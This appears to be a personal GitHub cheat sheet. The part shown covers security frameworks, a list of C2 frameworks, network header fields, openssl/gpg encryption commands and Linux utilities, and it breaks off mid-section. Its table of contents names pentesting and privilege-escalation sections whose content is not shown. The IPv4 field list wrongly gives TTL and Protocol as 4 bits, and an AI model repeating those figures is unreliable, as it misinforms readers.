








<div class="sticky" style="position: -webkit-sticky; position: sticky; top: 10px;">
  <button style="width: 100px; z-index: 1; cursor: pointer; font-size: 20px; float: right;" onclick="document.documentElement.scrollTop = 0;">Top</button>
</div>

<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [Vocabulary](#vocabulary)
- [ASCII](#ascii)
- [CyberSecurity](#cybersecurity)
  - [Compliance](#compliance)
  - [OWASP security principles](#owasp-security-principles)
  - [NIST Cybersecurity Framework (CSF)](#nist-cybersecurity-framework-csf)
  - [NIST Risk Management Framework (RMF)](#nist-risk-management-framework-rmf)
  - [Certified Information Systems Security Professionals (CISSP) domains](#certified-information-systems-security-professionals-cissp-domains)
  - [Threat model steps](#threat-model-steps)
  - [Threat model Frameworks](#threat-model-frameworks)
  - [Threat Intelligence](#threat-intelligence)
    - [Classifications](#classifications)
    - [Tools](#tools)
  - [Lockheed Martin Cyber Kill Chain](#lockheed-martin-cyber-kill-chain)
  - [MITRE ATT&CK](#mitre-attck)
  - [SPACE-SHIELD (Space Attacks and Countermeasures Engineering Shield)](#space-shield-space-attacks-and-countermeasures-engineering-shield)
  - [SPARTA](#sparta)
  - [TREKS](#treks)
- [C2 (Command and Control)](#c2-command-and-control)
- [OSI Model](#osi-model)
- [OSI Network Layer](#osi-network-layer)
  - [IPv4 (Internet Protocol version 4)](#ipv4-internet-protocol-version-4)
  - [IPv6 (Internet Protocol version 6)](#ipv6-internet-protocol-version-6)
- [OSI Transport Layer](#osi-transport-layer)
  - [TCP (Transmission  Control Protocol)](#tcp-transmission--control-protocol)
  - [UDP (User Datagram Protocol)](#udp-user-datagram-protocol)
- [Encryption](#encryption)
  - [Symmetric Key](#symmetric-key)
    - [Block cipher Operation modes](#block-cipher-operation-modes)
  - [Asymmetric Key (Public-key)](#asymmetric-key-public-key)
  - [Diffie-Hellman Key Exchange](#diffie-hellman-key-exchange)
    - [Cipher Suites](#cipher-suites)
- [Hashing](#hashing)
- [Linux](#linux)
  - [Create bootable USB from ISO](#create-bootable-usb-from-iso)
  - [Create Linux Service](#create-linux-service)
  - [iptables](#iptables)
  - [Printer Scan](#printer-scan)
  - [LINUX PRIV ESC](#linux-priv-esc)
    - [showmount -e IP](#showmount--e-ip)
- [Windows](#windows)
  - [Tools](#tools-1)
  - [Utilities](#utilities)
  - [Priviledge Escalation](#priviledge-escalation)
    - [Tools](#tools-2)
    - [Services](#services)
    - [Dangerous Privileges](#dangerous-privileges)
- [VirtualBox](#virtualbox)
  - [Accessing SD Card](#accessing-sd-card)
- [Pentesting](#pentesting)
  - [Common Vulnerability Scoring System (CVSS)](#common-vulnerability-scoring-system-cvss)
  - [ONLINE TOOLS and INFO](#online-tools-and-info)
  - [Tools](#tools-3)
    - [John The Ripper](#john-the-ripper)
    - [hydra](#hydra)
    - [crunch](#crunch)
    - [sqlmap](#sqlmap)
    - [tcpdump](#tcpdump)
  - [BASIC ENUMERATION](#basic-enumeration)
  - [FTP - File Transfer Protocol (port 21)](#ftp---file-transfer-protocol-port-21)
  - [SSH - Secure SHell (port 22)](#ssh---secure-shell-port-22)
  - [SFTP - Secure FTP (port 22)](#sftp---secure-ftp-port-22)
  - [SMTP (port 25) & SMTPS (port 465)](#smtp-port-25--smtps-port-465)
  - [DNS - Domain Name System (port 53)](#dns---domain-name-system-port-53)
    - [dnsmasq](#dnsmasq)
    - [Brute Force](#brute-force)
    - [Zone Transfer](#zone-transfer)
  - [DHCP - Dynamic Host Configuration Protocol (server port UDP 67 and client port UDP 68)](#dhcp---dynamic-host-configuration-protocol-server-port-udp-67-and-client-port-udp-68)
  - [finger (port 79)](#finger-port-79)
  - [HTTP - HyperText Transfer Protocol (port 80) & HTTPS (port 443)](#http---hypertext-transfer-protocol-port-80--https-port-443)
    - [HTTP status codes](#http-status-codes)
    - [Wordpress](#wordpress)
    - [JBOSS](#jboss)
    - [SQLi](#sqli)
    - [SSTI](#ssti)
      - [node.js](#nodejs)
    - [Serialization](#serialization)
      - [java](#java)
      - [PHP](#php)
      - [.NET](#net)
      - [BurpSuite extensions](#burpsuite-extensions)
  - [POP3 (port 110) & POP3S (port 995)](#pop3-port-110--pop3s-port-995)
  - [IMAP (port 143) & IMAPS (port 993)](#imap-port-143--imaps-port-993)
  - [NetBIOS (port 139 and UDP ports 137 and 138)](#netbios-port-139-and-udp-ports-137-and-138)
  - [SNMP - Simple Network Management Protocol (port UDP 161 and port UDP 162 - Trap) & SSNMP (port UDP 10161 and port UDP 10162 - Trap)](#snmp---simple-network-management-protocol-port-udp-161-and-port-udp-162---trap--ssnmp-port-udp-10161-and-port-udp-10162---trap)
  - [SMB - Server Message Block (port 445)](#smb---server-message-block-port-445)
  - [LDAP - Lightweight Directory Access Protocol (port 389) and LDAPs (port 636)](#ldap---lightweight-directory-access-protocol-port-389-and-ldaps-port-636)
  - [RTSP - Real Time Streaming Protocol (port 554)](#rtsp---real-time-streaming-protocol-port-554)
  - [JAVA RMI (port 1099)](#java-rmi-port-1099)
  - [OPENVPN (port 1194)](#openvpn-port-1194)
  - [MS SQL (port 1433)](#ms-sql-port-1433)
  - [MQTT (port 1883) & MQTTS (port 8883)](#mqtt-port-1883--mqtts-port-8883)
  - [RTMP - Real-Time Messaging Protocol (port 1935)](#rtmp---real-time-messaging-protocol-port-1935)
  - [NFS - Network File System (port 2049)](#nfs---network-file-system-port-2049)
  - [MySQL (port 3306)](#mysql-port-3306)
  - [SQLITE3](#sqlite3)
  - [RDP - Remote Desktop Protocol (port 3389)](#rdp---remote-desktop-protocol-port-3389)
  - [PostgresSQL (port 5432)](#postgressql-port-5432)
  - [WinRM - Windows Remote Management (port 5985 & port 5986)](#winrm---windows-remote-management-port-5985--port-5986)
    - [CVEs](#cves)
    - [Tools](#tools-4)
    - [Powershell](#powershell)
    - [metasploit](#metasploit)
    - [on linux using evil-winrm](#on-linux-using-evil-winrm)
  - [REDIS (port 6379)](#redis-port-6379)
  - [IRC - Internet Realy Chat (port 6667)](#irc---internet-realy-chat-port-6667)
  - [Apache Solr (port 8983)](#apache-solr-port-8983)
  - [FastCGI (port 9000)](#fastcgi-port-9000)
  - [MongoDB (port 27017)](#mongodb-port-27017)
  - [WOL (Wake On LAN)](#wol-wake-on-lan)
  - [TLS - Transport Layer Security / SSL - Secure Sockets Layer (deprecated)](#tls---transport-layer-security--ssl---secure-sockets-layer-deprecated)
  - [stable shell](#stable-shell)
  - [Authentication](#authentication)
    - [OAUTH](#oauth)
    - [JWT](#jwt)
  - [XXE](#xxe)
  - [XSS](#xss)
  - [Web Proxy Automatic Detection (WPAD)](#web-proxy-automatic-detection-wpad)
  - [Proxy auto-configuration (PAC)](#proxy-auto-configuration-pac)
  - [WIFI](#wifi)
  - [Volatility](#volatility)
- [Buffer overflow](#buffer-overflow)
- [Frida](#frida)
- [Reverse Engineering](#reverse-engineering)
  - [radare2](#radare2)
  - [Hopper](#hopper)
  - [anti-reversing measures](#anti-reversing-measures)
- [ffmeg](#ffmeg)
- [TOR](#tor)
- [SOCIAL ENGINEERING](#social-engineering)
  - [OSINT](#osint)
  - [FISHING](#fishing)
- [Android](#android)
  - [Links](#links)
  - [ADB - Android Debug Bridge](#adb---android-debug-bridge)
  - [apk analyser](#apk-analyser)
- [Programming Languages](#programming-languages)
  - [Python](#python)
    - [Django](#django)
    - [Create pypi package](#create-pypi-package)
  - [HTML and JavaScript](#html-and-javascript)
  - [Rust](#rust)
  - [Assembly](#assembly)
  - [SMALI](#smali)
  - [R](#r)
  - [Markdow](#markdow)
    - [Math](#math)
    - [Emojis](#emojis)
    - [Mermaid](#mermaid)
    - [Sequence](#sequence)
- [Regex](#regex)
- [GIT](#git)
- [Docker](#docker)
  - [Install on Windows](#install-on-windows)
  - [Docker GUI apps](#docker-gui-apps)
  - [My Dockerfiles](#my-dockerfiles)
- [AWS](#aws)
- [Arduino](#arduino)
  - [CLI](#cli)
  - [ESP8266 NODEMCU Pinout](#esp8266-nodemcu-pinout)
  - [ESP32 Pinout](#esp32-pinout)
  - [ESP32 DEV KIT V1 Pinout](#esp32-dev-kit-v1-pinout)
  - [ESP32 CAM Pinout](#esp32-cam-pinout)
  - [Arduino Uno Pinout](#arduino-uno-pinout)
  - [Arduino Mega Pinout](#arduino-mega-pinout)
  - [FTDI FT232RL USB to TTL Pinout](#ftdi-ft232rl-usb-to-ttl-pinout)
  - [SPIFFS (SPI Flash File System)](#spiffs-spi-flash-file-system)
  - [Include ESP32 and ESP8266 boards](#include-esp32-and-esp8266-boards)
  - [Include RaspberryPi Pico boards](#include-raspberrypi-pico-boards)
  - [avrdude](#avrdude)
  - [esptool](#esptool)
  - [MicroPython](#micropython)
- [RaspberryPi](#raspberrypi)
  - [RaspberryPi 3 Pinout](#raspberrypi-3-pinout)
- [VPNs](#vpns)
- [Protocols](#protocols)
  - [Open](#open)
  - [Proprietary](#proprietary)
- [Communication Protocols](#communication-protocols)
  - [Serial Communication Protocols](#serial-communication-protocols)
    - [UART (Universal Asynchronous Receiver Transmitter)](#uart-universal-asynchronous-receiver-transmitter)
    - [SPI (Serial Peripheral Interface)](#spi-serial-peripheral-interface)
    - [I2C (Inter Integrated Circuit)](#i2c-inter-integrated-circuit)
    - [CAN (Controller Area Network)](#can-controller-area-network)
    - [OBD2 (On Board Diagnostics)](#obd2-on-board-diagnostics)
  - [JTAG (Joint Test Action Group)](#jtag-joint-test-action-group)
  - [Wireless Communication Protocols](#wireless-communication-protocols)
    - [NFC and RFID](#nfc-and-rfid)
    - [SUB GHz](#sub-ghz)
      - [433 MHz](#433-mhz)
      - [LORA (LOng RAnge)](#lora-long-range)
      - [POCSAG (Post Office Code Standardisation Advisory Group)](#pocsag-post-office-code-standardisation-advisory-group)
    - [ADS-B (Automatic Dependent Surveillance-Broadcast)](#ads-b-automatic-dependent-surveillance-broadcast)
    - [2.4GHz](#24ghz)
    - [WiFi](#wifi-1)
    - [Bluetooth](#bluetooth)
    - [Bluetooth LE (Low Energy)](#bluetooth-le-low-energy)
    - [ANT+](#ant)
    - [Mobile Networks](#mobile-networks)
    - [GNSS (Global Navigation Satellite System)](#gnss-global-navigation-satellite-system)
      - [GPS](#gps)
    - [SDR (Software Defined Radio)](#sdr-software-defined-radio)
- [Garmin](#garmin)
- [HOW TOs](#how-tos)
- [Car Hacking](#car-hacking)
  - [Renault Clio IV](#renault-clio-iv)
    - [Infotainment System](#infotainment-system)
- [SMART City](#smart-city)
- [Electromagnetic spectrum](#electromagnetic-spectrum)
  - [Radio Frequencies](#radio-frequencies)
- [Tone Dialing](#tone-dialing)
- [Logic Gates](#logic-gates)
- [Aerospace](#aerospace)
- [Aircraft](#aircraft)
  - [OSITN](#ositn)
  - [Design](#design)
  - [Avionics](#avionics)
    - [ACARS (Aircraft Communication Addressing and Reporting System)](#acars-aircraft-communication-addressing-and-reporting-system)
      - [VDLM2 (VHF Digital Link Mode 2) uses D8PSK (Differential 8-Phase Shift Keying)](#vdlm2-vhf-digital-link-mode-2-uses-d8psk-differential-8-phase-shift-keying)
    - [ACAS (Airborne Collision Avoidance System)](#acas-airborne-collision-avoidance-system)
    - [ADS-B (Automatic dependent surveillance – broadcast)](#ads-b-automatic-dependent-surveillance--broadcast)
    - [AHRS (Attitude and heading reference system)](#ahrs-attitude-and-heading-reference-system)
    - [ARINC 429](#arinc-429)
    - [CMU](#cmu)
    - [DME (Distance Measuring Equipment)](#dme-distance-measuring-equipment)
    - [GCWS (Ground collision warning system)](#gcws-ground-collision-warning-system)
    - [GPWS (Ground proximity warning system)](#gpws-ground-proximity-warning-system)
    - [FMC](#fmc)
    - [FMS (Flight Management System)](#fms-flight-management-system)
    - [ILS (Instrument Landing System)](#ils-instrument-landing-system)
    - [IRS (Inertial Reference System)](#irs-inertial-reference-system)
    - [Mode A/C/S](#mode-acs)
    - [NDB (Non Directional Beacon)](#ndb-non-directional-beacon)
    - [PSR (Primary Surveillance Radar)](#psr-primary-surveillance-radar)
    - [TACAN (Tactical Air Navigation System)](#tacan-tactical-air-navigation-system)
    - [TAWS (Terrain awareness and warning System)](#taws-terrain-awareness-and-warning-system)
    - [TCAS (Traffic Collision Avoidance System)](#tcas-traffic-collision-avoidance-system)
    - [VOR (VHF Omnidirectional Range)](#vor-vhf-omnidirectional-range)
  - [Aircraft Antennas and Probes](#aircraft-antennas-and-probes)
- [Space](#space)
  - [OSINT](#osint-1)
  - [Design](#design-1)
    - [Kepler's laws of planetary motion](#keplers-laws-of-planetary-motion)
    - [Orbital Inclination](#orbital-inclination)
    - [Azimuth](#azimuth)
    - [Azimuth](#azimuth-1)
  - [Sattelite Tacking](#sattelite-tacking)
  - [Security](#security)
- [Artifical Inteligence (AI)](#artifical-inteligence-ai)
  - [Large Language Models (LLM)](#large-language-models-llm)
    - [ollama](#ollama)
    - [ollama and huggingface](#ollama-and-huggingface)

<!-- /code_chunk_output -->

# Vocabulary

- IP
- HOSTNAME
- PORT
- DNS_SERVER
- URL
- DOMAIN
- USERNAME
- PASSWORD
- FILE_NAME

# ASCII

```python
chr(97) == "a"
ord("a") == 97
```

[View Table](ascii.html)

# CyberSecurity

## Compliance

1. The Federal Energy Regulatory Commission - North American Electric Reliability Corporation (FERC-NERC)
2. General Data Protection Regulation (GDPR)
3. Payment Card Industry Data Security Standard (PCI DSS)
4. The Health Insurance Portability and Accountability Act (HIPAA)
5. System and Organizations Controls (SOC type 1, SOC type 2)

## OWASP security principles

1. Minimize attack surface area: Attack surface refers to all the potential vulnerabilities a threat actor could exploit.
2. Principle of least privilege: Users have the least amount of access required to perform their everyday tasks.
3. Defense in depth: Organizations should have varying security controls that mitigate risks and threats.
4. Separation of duties: Critical actions should rely on multiple people, each of whom follow the principle of least privilege. 
5. Keep security simple: Avoid unnecessarily complicated solutions. Complexity makes security difficult. 
6. Fix security issues correctly: When security incidents occur, identify the root cause, contain the impact, identify vulnerabilities, and conduct tests to ensure that remediation is successful.

## NIST Cybersecurity Framework (CSF)

1. Identify
2. Protect
3. Detect
4. Respond
5. Recover

## NIST Risk Management Framework (RMF)

1. prepare
2. categorize
3. select
4. implement
5. assess
6. authorize
7. monitor

##  Certified Information Systems Security Professionals (CISSP) domains

1. Security and risk management
2. Asset security
3. Security architecture and engineering
4. Communication and network security
5. Identity and access management (IAM)
6. Security assessment and testing
7. Security operations
8. Software development security

## Threat model steps

1. Define scope
2. Identify threats
3. Characterize the environment
4. Analyze threats
5. Mitigate risks
6. Evaluate findings

## Threat model Frameworks

1. STRIDE - spoofing, tampering, repudiation, information disclosure, denial of service, and elevation of privilege
2. PASTA - Process of Attack Simulation and Threat Analysis
3. Trike
4. VAST - Visual, Agile, and Simple Threat

## Threat Intelligence

### Classifications

Strategic Intel: High-level intel that looks into the organisation's threat landscape and maps out the risk areas based on trends, patterns and emerging threats that may impact business decisions.

Technical Intel: Looks into evidence and artefacts of attack used by an adversary. Incident Response teams can use this intel to create a baseline attack surface to analyse and develop defence mechanisms.

Tactical Intel: Assesses adversaries' tactics, techniques, and procedures (TTPs). This intel can strengthen security controls and address vulnerabilities through real-time investigations.

Operational Intel: Looks into an adversary's specific motives and intent to perform an attack. Security teams may use this intel to understand the critical assets available in the organisation (people, processes, and technologies) that may be targeted.

### Tools

https://urlscan.io/
https://abuse.ch/#platforms

## Lockheed Martin Cyber Kill Chain 

https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html

- Reconnaissance: Recon, short for reconnaissance, refers to the step where the attacker tries to learn as much as possible about the target. Information such as the types of servers, operating system, IP addresses, names of users, and email addresses, can help the attack’s success.
- Weaponization: This step refers to preparing a file with a malicious component, for example, to provide the attacker with remote access.
- Delivery: Delivery means delivering the “weaponized” file to the target via any feasible method, such as email or USB flash memory.
- Exploitation: When the user opens the malicious file, their system executes the malicious component.
- Installation: The previous step should install the malware on the target system.
- Command & Control (C2): The successful installation of the malware provides the attacker with a command and control ability over the target system.
- Actions on Objectives: After gaining control over one target system, the attacker has achieved their objectives. One example objective is Data Exfiltration (stealing target’s data).

## MITRE ATT&CK

https://attack.mitre.org/
https://mitre-attack.github.io/attack-navigator/

- Reconnaissance
- Resource Development
- Initial Access
- Execution
- Persistence
- Privilege Escalation
- Defense Evasion
- Credential Access
- Discovery
- Lateral Movement
- Collection
- Command and Control (C2)
- Exfiltration
- Impact

## SPACE-SHIELD (Space Attacks and Countermeasures Engineering Shield)

https://spaceshield.esa.int/

## SPARTA

## TREKS

- Targeting
- Reconnaissance
- Exploitation
- Kill-Chain 
- for Space Vehicles Cybersecurity Framework

# C2 (Command and Control)

https://www.thec2matrix.com/matrix
https://howto.thec2matrix.com/

- Free C2 Frameworks
1. Metasploit
2. Armitage
3. Powershell Empire
4. Starkiller
5. Covenant
6. Sliver

- Paid C2 Frameworks
1. Cobalt Strike
2. Brute Ratel

# OSI Model

1. Application
2. Presentation
3. Session
4. Transport
5. Network
6. Data link
7. Physical

# OSI Network Layer

## IPv4 (Internet Protocol version 4)

- Version: 4 bits
- IHL: 4 bits
- DSCP (Differentiated Services Code Point): 6 bits
- ECN (Explicit Congestion Notification): 2 bits
- Total Length: 16 bits
- Identification: 16 bits
- Flags:
  - 3 bits
  - bit 0: Reserved; must be zero
  - bit 1: Don't Fragment (DF)
  - bit 2: More Fragments (MF)
- Fragment Offset: 13 bits
- TTL (Time To Live): 4 bits
- Protocol: 4 bits
- Header Checksum: 16 bits
- Source IP Address: 32 bits
- Destination IP Address: 32 bits
- Options

## IPv6 (Internet Protocol version 6)

# OSI Transport Layer

## TCP (Transmission  Control Protocol)

- Source port: 16 bits
- Destination port: 16 bits
- Sequence number: 32 bits
- Acknowledgment number (if ACK set): 32 bits
- Data offset: 4 bits
- Reserved: 4 bits (set to 0)
CWR: 1 bits
ECE: 1 bits
URG: 1 bits
ACK: 1 bits
PSH: 1 bits
RST: 1 bits
SYN: 1 bits
FIN: 1 bits
Window Size: 16 bits
Checksum: 16 bits
Urgent pointer (if URG set): 16 bits
Options (if data offset > 5. Padded at the end with "0" bits if necessary.)

## UDP (User Datagram Protocol)

- Source port: 16 bits
- Destination port: 16 bits
- Length: 16 bits
- Checksum: 16 bits


# Encryption

## Symmetric Key

- AES (Advanced Encryption Standard)
- 3DES
- DES
- RC4

### Block cipher Operation modes

| Mode | Formulas | Ciphertext |
| --- | --- | --- |
| Electronic codebook (ECB) | Yi = F(PlainTexti, Key) | Yi |
| Cipher block chaining (CBC) | Yi = PlainTexti XOR Ciphertexti−1 | F(Y, Key); Ciphertext0 = IV |
| Propagating CBC (PCBC) | Yi = PlainTexti XOR (Ciphertexti−1 XOR PlainTexti−1) | F(Y, Key);  |Ciphertext0 = IV
| Cipher feedback (CFB) | Yi = Ciphertexti−1 | Plaintext XOR F(Y, Key); Ciphertext0 = IV |
| Output feedback (OFB) | Yi = F(Yi−1, Key); Y0 = F(IV, Key) | Plaintext XOR Yi |
| Counter (CTR) | Yi = F(IV + g(i), Key); IV = token() | Plaintext XOR Yi |

```bash
gpg --symmetric --cipher-algo CIPHER message.txt
gpg --output original_message.txt --decrypt message.gpg

openssl aes-256-cbc -pbkdf2 -iter 10000 -e -in message.txt -out encrypted_message
openssl aes-256-cbc -pbkdf2 -iter 10000 -d -in encrypted_message -out original_message.txt
```

## Asymmetric Key (Public-key)

- RSA (Rivest-Shamir-Adleman)

```bash
openssl genrsa -out private-key.pem 2048
openssl rsa -in private-key.pem -pubout -out public-key.pem

openssl rsa -in private-key.pem -text -noout

openssl pkeyutl -encrypt -in plaintext.txt -out ciphertext -inkey public-key.pem -pubin
openssl pkeyutl -decrypt -in ciphertext -inkey private-key.pem -out decrypted.txt
```

## Diffie-Hellman Key Exchange

```bash
openssl dhparam -in dhparams.pem -text -noout
```

- User agree on two number g (public, smaller than q and need to be a generator) and q (public, prime number)
- User A chooses a number a (private, random smaller than q)
- User B chooses a number b (private, random smaller than q)
- User A calculates A = g**a mod q (public)
- User B calculates B = g**b mod q (public)
- A and B are shared
- Each user can the calculate the key
- User A K = B**a mod q
- User B K = A**b mod q

### Cipher Suites


TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA256

- protocol
- asymmetric (public key) crypto
  - key exchange algorithm
  - authentication mechanism
- symmetric crypto
  - session cipher
  - session cipher key size
  - session cipher block type
- message authentication hash algorithm
  - digest size

# Hashing

https://crackstation.net/

- MD5
- SHA1
- SHA2-256
- SHA2-512

```bash
echo -n "test" | sha256sum
9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08
```

# Mac OS

pkgutil --pkgs 

# Linux

Print installed Software:
```bash
sudo dpkg -l --no-pager
```

## Create bootable USB from ISO

sudo dd if=/path/to/iso/file of=/dev/sdb bs=4M status=progress && sync

```bash
apt-key adv --fetch-keys https://developer.download.nvidia.com/compute/cuda/repos/debian11/x86_64/3bf863cc.pub
curl -fsSL https://developer.download.nvidia.com/compute/cuda/repos/debian11/x86_64/3bf863cc.pub | gpg --dearmor | sudo tee /etc/apt/trusted.gpg.d/cudatools.gpg > /dev/null
apt install dislocker
sudo dislocker -r -V /dev/sda2 -u -- /media/D/
sudo mount -r -o loop /media/D/dislocker-file /media/D
```

Port forwarding:

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

sudo nano /etc/sysctl.conf
